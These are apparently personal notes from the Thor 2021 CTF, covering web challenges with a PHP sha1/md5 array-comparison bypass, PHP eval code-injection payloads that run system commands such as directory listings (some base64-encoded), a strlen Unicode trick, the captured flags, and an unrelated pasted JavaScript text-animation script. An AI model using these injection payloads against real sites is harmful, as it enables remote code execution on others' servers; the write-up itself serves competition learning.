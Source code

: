 https://github.com/satoki/ctf_writeups/tree/master/Thor_2021_CTF/Phpbaby
https://github.com/FoushGX/SecureBug_Thor_2021_CTF

Challenge Name: Break the logic

- inspecting site and looking for hints. I found a lot of .js files. First tried to run the invisible.js, but it is a dead end
- tried to post to site but got 403 Forbidden. Maybe I was missing a CSRF token, but this also happened for all other endpoints, so dead end again


Challenge Name: Tricks 1
- POST with parameter a and b excutes the code. if these are not passed, then you get the file highlighted
- two strings that have the same sha1 must be passed

https://medium.com/@mena.meseha/php-functions-security-issues-755ce4c8643c
![[Screen Shot 2021-11-28 at 13.52.51.png]]
?a[]=a&b[]=b

<?php  
    error_reporting(0);  
  
    if (isset($_GET["a"]) && isset($_GET["b"])) {  
        if ($_GET["a"] !== $_GET["b"] && sha1($_GET["a"]) === sha1($_GET["b"])) {  
            if ($_GET["a"] !== $_GET["b"] && md5($_GET["a"]) === md5($_GET["b"])) { $flag = file_get_contents("../../flag");  
                echo $flag;  
            }else {  
                echo "Didn't get passed MD5.";  
            }  
        }else {  
            echo "Didn't get passed SHA1.";  
        }  
    }else { highlight_file(__FILE__);  
        die();  
    }  
?>

SBCTF{g07_2_w17h_0n3_SH07?}

https://ch5.sbug.se/

Challenge Name: Phpbaby
https://ch3.sbug.se/robots.txt
user-agent: *
disallow: /Source_Code_Backup

<!--
// Source Code Backup:
	$SBCTF=@(string)$_GET['SBCTF'];
	filter($boycott, $SBCTF);
	eval('$SBCTF="'.addslashes($SBCTF).'";');
-->

https://ch3.sbug.se/?SBCTF='test';system(‘id’)
Invaild!: '

https://ch3.sbug.se/index.php?SBCTF=;%20echo%20phpinfo();%20//

https://cobalt.io/blog/a-pentesters-guide-to-code-injection
https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php
https://security.stackexchange.com/questions/179375/how-eval-in-php-can-be-dangerous-in-web-applications-security
https://ch3.sbug.se/index.php?SBCTF=2;${phpinfo()};

"; echo system('dir'); //

https://ch3.sbug.se/index.php?SBCTF=2;${system(ls)}
https://ch3.sbug.se/index.php?SBCTF=2;${system(base64_decode(bHMg))}

https://sandbox.onlinephpfunctions.com/

https://ch3.sbug.se/index.php?SBCTF=2;${system(base64_decode(bHMgLi4vLi4v))}

https://ch3.sbug.se/index.php?SBCTF=2;${system(base64_decode(bHMgLi4vLi4vLi4v))}

SBCTF{eval_93da83d498872a4028dac140d1574290}

Richtig klug:
?SBCTF=var_dump(${eval($_GET[1])}=123)&1=system('ls ../../../');


![[Screen Shot 2021-11-28 at 16.20.59.png]]

(function() {

var charWidth = 6;

var charHeight = 10;

var likelihoodOfReplacingWord = 0.05;

var likelihoodOfChangingExistingText = 0.1;

  

function randomChoice(x) {

return x[Math.floor(Math.random() * x.length)];

}

function initElement(element) {

var img = new Image();

img.onload = function() {

render(element, img, null);

}

img.src = element.getAttribute('data-letter-crap');

}

function getTextContentWithImageAtSize(image, width, height, existingText, words, letters) {

existingText = existingText ? existingText.replace(/\r?\n|\r/g, '') : null;

var shouldReplaceExisting = function() { return !existingText || Math.random() < likelihoodOfChangingExistingText };

var canvas = document.createElement('canvas');

canvas.width = parseInt(width / charWidth);

canvas.height = parseInt(height / charHeight);

canvas.getContext('2d').drawImage(image, 0, 0, canvas.width, canvas.height);

var data = canvas.getContext('2d').getImageData(0, 0, canvas.width, canvas.height);

var chars = "";

var startOfFilledInSequence = 0;

var i = 0;

for (var y=0; y<data.height; y++) {

for (var x=0; x<data.width; x++) {

var black = data.data[i*4] < 120;

var transparent = data.data[i*4+3] < 50;

if (black && !transparent) {

if (startOfFilledInSequence === null) startOfFilledInSequence = i;

if (shouldReplaceExisting()) {

chars += randomChoice(letters);

} else {

chars += existingText[i];

}

if (words.length > 0 && Math.random() < likelihoodOfReplacingWord && shouldReplaceExisting()) {

var word = randomChoice(words);

if (i + 1 - startOfFilledInSequence >= word.length) {

chars = chars.substring(0, chars.length - word.length) + word;

}

}

} else {

chars += " ";

startOfFilledInSequence = null;

}

i++;

}

chars += "\n";

startOfFilledInSequence = null;

}

return chars

}

function render(element, image, prev) {

if (element.hasAttribute('data-lettercrap-aspect-ratio')) {

var aspect = parseFloat(element.getAttribute('data-lettercrap-aspect-ratio'));

element.style.height = element.clientWidth * aspect + 'px';

}

var text;

var words = element.hasAttribute('data-lettercrap-words') ? element.getAttribute('data-lettercrap-words').split(' ') : [];

var letters = element.hasAttribute('data-lettercrap-letters') ? element.getAttribute('data-lettercrap-letters') : '0101010101_';

if (prev && prev.width == element.clientWidth && prev.height == element.clientHeight) {

text = getTextContentWithImageAtSize(image, element.clientWidth, element.clientHeight, prev.text, words, letters);

} else {

text = getTextContentWithImageAtSize(image, element.clientWidth, element.clientHeight, null, words, letters);

}

element.textContent = text;

var data = {width: element.clientWidth, height: element.clientHeight, text: text};

setTimeout(function() {

render(element, image, data);

}, 150);

}

document.addEventListener('DOMContentLoaded', function() {

var elements = document.querySelectorAll('[data-letter-crap]');

for (var i=0; i<elements.length; i++) {

initElement(elements[i]);

}

})

})()

Challenge Name: Tricks 2

https://ch6.sbug.se/?a=%22%D8%B3%D9%84%D8%B7%D8%A7%D9%86%22&b=%22%D8%B3%D9%84%D8%B7%D8%A7%D9%86%22
![[Screen Shot 2021-11-28 at 23.04.58.png]]

https://stackoverflow.com/questions/15829554/strlen-php-function-giving-the-wrong-length-of-unicode-characters

strlen counts bytes and not number of characters

SBCTF{d1d_y0u_kn0w_abou7_7h47?}